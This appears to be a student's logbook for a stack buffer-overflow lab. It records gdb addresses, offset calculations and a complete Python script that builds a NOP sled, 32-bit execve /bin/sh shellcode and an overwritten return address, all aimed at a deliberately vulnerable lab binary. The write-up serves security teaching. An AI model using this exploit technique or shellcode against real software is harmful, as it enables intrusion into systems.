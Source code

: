 # Log Book 5

## Task 1

Both versions of the shellcode (32 and 64 bit) spawn a shell. We can run commands
on this shell as usual, but deleting characters doesn't given visual feed. Deleting
a char from the command line deletes it fromm the buffer, but it remains on screen.

The environment of these shells includes both a PWD and OLDPWD:. It also includes
a SHLVL variable. No PATH environment variabl is defined.

![task 1 pt.1](./LOGBOOK5_img/task_1.png)

![task 1 pt.2](./LOGBOOK5_img/task_1_2.png)

## Task 2

There are 4 executable with slightly different configs (**DBUF_SIZE**):

- L1 - 100
- L2 - 160
- L3 - 200
- L4 - 10

We'll use L1 for task 3.

## Task 3

This executable was compiled for 32-bit and, using the instructions in the
lab pdf, we obtained the following information concerning the address
of the buffer and the frame pointer.

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaa8

gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca3c
```

### How to attack

We'll place our shell code in a region above the return address location
and change the return address to point to that location.

### Stack pointer

The frame pointer is pointing to the address of the **last frame pointer.**.
The last frame pointer is a 32-bit value: 4 byte. With this, we know the
stack pointer, **sp**, is at `sp + 4 = 0xffffcaa8 + 4 = 0xffffcaac`.

### The attack

We have a 517 byte buffer to use. We'll start by filling it with **NOPs**,
and then place our shellcode at the end of this buffer. These **NOPs** will
be helpful later since we can just point the return address no anywhere in
this region and the shellcode will be eventually reached (less precision
required).

We can calculate that the offset between the buffer address and the frame
pointer, `fp - buf_addr`, is **108**.

With all of these in mind, we can place the address of the start of the
shellcode as the return address: `buf_addr + start`.

When the function attempts to return, it will jump to the shellcode and
spawn a shell.


### Exploit code

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a shell.
